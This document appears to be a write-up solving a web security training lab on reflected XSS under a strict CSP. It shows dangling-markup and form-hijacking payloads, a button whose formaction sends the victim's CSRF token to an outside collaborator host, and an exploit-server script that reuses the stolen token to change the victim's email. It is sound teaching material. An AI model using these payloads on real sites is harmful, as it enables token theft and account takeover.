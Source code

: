 # Reflected XSS protected by very strict CSP, with dangling markup attack
# Objective
This lab uses a strict CSP that prevents the browser from loading subresources from external domains.

To solve the lab, perform a form hijacking attack that bypasses the CSP, exfiltrates the simulated victim user's CSRF token, and uses it to authorize changing the email to `hacker@evil-user.net`.

You must label your vector with the word "Click" in order to induce the simulated user to click it. For example:
```
<a href="">Click me</a>
```

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
The website has change email functionality that requires CSRF token. In the request `/my-account?id=wiener` extra parameter can be used - `email`. If its specified in reuqest it allows to prefill email field.

|![](Images/image-98.png)|
|:--:| 
| *Change email functionality - requires CSRF token* |
|![](Images/image-99.png)|
| *CSP Evaluator results* |
|![](Images/image-100.png)|
| *Test payload via extra parameter* |

```
Content-Security-Policy: default-src 'self';object-src 'none'; style-src 'self'; script-src 'self'; img-src 'self'; base-uri 'none';
```

## Exploitation
### CSP Bypass by dangling markup - OLD
CSP policy blocks browser from dispatching HTTP request provided in `src` in `img` tag.

|![](Images/image-101.png)|
|:--:| 
| *Test payload with img tag* |


Using the following payload, attacker can create link to arbitrary page:
```
"><a href="https://example.com">Click me</a><base target="TEST"
```
|![](Images/image-102.png)|
|:--:| 
| *Test payload with link and * |
|![](Images/image-103.png)|
| *Clicking the link - base tag * |

Using the `target` attribute on the `base` tag attacker can change the `window.name` of every link on the page. Using the previous payload without closed `"` results in part of the source code to be sent to arbitrary page - DID NOT WORKED ...
```
"><a href="https://example.com">Click me</a><base target="TEST
```
|![](Images/image-102.png)|
|:--:| 
| *Test payload with link and * |
|![](Images/image-103.png)|
| *Clicking the link - base tag * |

### CSRF token hijacking
CSP is missing `form-action` directive. Using the following payload attacker can bypass present CSP. Using `formmethod="get"` allows to send data, including CSRF token, as request parameters and not in the POST request body.

```
/my-account?id=wiener&email=foo@bar"><button formaction="https://<id>.oastify.com/exploit" formmethod="get">Click me</button>
```

|![](Images/image-104.png)|
|:--:| 
| *Payload* |
|![](Images/image-108.png)|
| *Payload in rendered page* |
|![](Images/image-105.png)|
| *Test exfiltration of CSRF token* |

Test exploit server configuration:
```
<script>window.location='https://<id>.web-security-academy.net/my-account?email=foo@bar"><button formaction="https://<id>.oastify.com/exploit" formmethod="get">Click me</button>'</script>
```
|![](Images/image-107.png)|
|:--:| 
| *Test exploit server configuration* |
|![](Images/image-106.png)|
| *Request send by victim* |

|![](Images/image-109.png)|
|:--:| 
| *Final exploit server configuration* |

Final exploit server configuration:
```html
<body>
<script>
// Define the URLs for the lab environment and the exploit server.
const academyFrontend = "https://your-lab-url.net/";
const exploitServer = "https://your-exploit-server.net/exploit";

// Extract the CSRF token from the URL.
const url = new URL(location);
const csrf = url.searchParams.get('csrf');

// Check if a CSRF token was found in the URL.
if (csrf) {
    // If a CSRF token is present, create dynamic form elements to perform the attack.
    const form = document.createElement('form');
    const email = document.createElement('input');
    const token = document.createElement('input');

    // Set the name and value of the CSRF token input to utilize the extracted token for bypassing security measures.
    token.name = 'csrf';
    token.value = csrf;

    // Configure the new email address intended to replace the user's current email.
    email.name = 'email';
    email.value = 'hacker@evil-user.net';

    // Set the form attributes, append the form to the document, and configure it to automatically submit.
    form.method = 'post';
    form.action = `${academyFrontend}my-account/change-email`;
    form.append(email);
    form.append(token);
    document.documentElement.append(form);
    form.submit();

    // If no CSRF token is present, redirect the browser to a crafted URL that embeds a clickable button designed to expose or generate a CSRF token by making the user trigger a GET request
} else {
    location = `${academyFrontend}my-account?email=blah@blah%22%3E%3Cbutton+class=button%20formaction=${exploitServer}%20formmethod=get%20type=submit%3EClick%20me%3C/button%3E`;
}
</script>
</body>
```

